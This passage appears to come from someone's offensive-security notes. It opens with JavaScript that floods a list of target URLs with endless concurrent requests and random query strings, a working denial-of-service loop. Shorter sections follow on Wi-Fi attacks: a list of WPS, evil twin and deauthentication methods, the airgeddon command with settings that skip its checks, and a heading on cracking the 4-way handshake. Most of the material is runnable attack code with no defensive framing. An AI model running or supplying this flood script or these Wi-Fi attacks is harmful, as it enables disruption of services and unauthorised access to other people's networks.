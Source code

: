 ```js
      for (var i = 0; ; ++i) {
        if (queue.length > CONCURRENCY_LIMIT) {
          await queue.shift()
        }
        rand = i % 3 === 0 ? '' : ('?' + Math.random() * 1000)
        queue.push(
          fetchWithTimeout(target + rand, { timeout: 1000 })
            .catch((error) => {
              if (error.code === 20 /* ABORT */) {
                return;
              }
              targetStats[target].number_of_errored_responses++;
            })
            .then((response) => {
              if (response && !response.ok) {
                targetStats[target].number_of_errored_responses++;
              }
              targetStats[target].number_of_requests++;
            })

        )
      }
    }

    // Start
    targets.map(flood)
```

# Restoring network from monitor mode

```bash
sudo systemctl start NetworkManager.service     
```

# Very simple Wifi method

* WPS
* Evil twin
* Deauth

```bash
sudo airgeddon
```

```bash
export AIRGEDDON_CHECK_DEPENDENCIES=false
export AIRGEDDON_CHECK_UPDATES=false
export AIRGEDDON_SKIP_INTRO=true
```

# wifi 4-way handshake atk
